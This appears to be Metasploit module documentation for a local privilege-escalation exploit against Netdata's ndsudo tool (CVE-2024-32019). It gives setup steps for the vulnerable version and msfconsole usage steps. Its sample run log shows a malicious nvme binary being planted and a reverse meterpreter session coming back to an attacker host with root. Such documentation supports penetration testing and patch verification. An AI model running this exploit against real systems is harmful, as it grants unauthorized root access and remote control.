 ## Vulnerable Application

The `ndsudo` is a tool shipped with Netdata Agent. The version v1.45.0 and below contain vulnerability, which allows an attacker to gain privilege escalation using `ndsudo` binary. The vulnerability is untrusted search path, when searching for additional binary files, such as `nvme`. An attacker can create malicious binary with same name and add the directory of this binary into `$PATH` variable. The `ndsudo` will trust the first occurence of this binary and execute it.

Installation steps:

1. `sudo apt  install cmake libelf-dev git bison flex build-essential libssl-dev libsystem-dev liblz4-dev libzstd-dev libbrotli-dev uuid-dev libuv1-dev`
1. `wget https://github.com/netdata/netdata-nightlies/releases/download/v1.45.0-8-nightly/netdata-latest.tar.gz`
1. `gunzip netdata-latest.tar.gz`
1. `tar -xf netdata-latest.tar`
1. `cd netdata-v1.45.0-8-g5803c7766/`
1. `sudo ./netdata-installer.sh`

## Verification Steps

1. Install the application
1. Start msfconsole
1. Receive a session
1. Do: `use exploit/linux/local/ndsudo_cve_2024_32019`
1. Do: `set session [session number]`
1. Do: `run`
1. Get root shell/meterpreter session

## Options


### WritableDir

A path where malicious `nvme` binary will be stored. This path will be later prepended to `$PATH` variable to achieve privilege escalation.

### NdsudoPath

A path to `ndsudo` binary.


## Scenarios

```
msf exploit(linux/local/ndsudo_cve_2024_32019) > run verbose=true
[*] Started reverse TCP handler on 192.168.3.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Vulnerable binary detected
[*] Creating malicious file at /tmp/nvme
[*] Writing '/tmp/nvme' (250 bytes) ...
[*] Executing..
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3090404 bytes) to 10.5.134.200
[+] Deleted /tmp/nvme
[*] Meterpreter session 3 opened (192.168.3.7:4444 -> 10.5.134.200:53172) at 2025-08-11 11:05:24 +0200

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 10.5.134.200
OS           : Ubuntu 20.04 (Linux 5.13.0-1021-oem)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
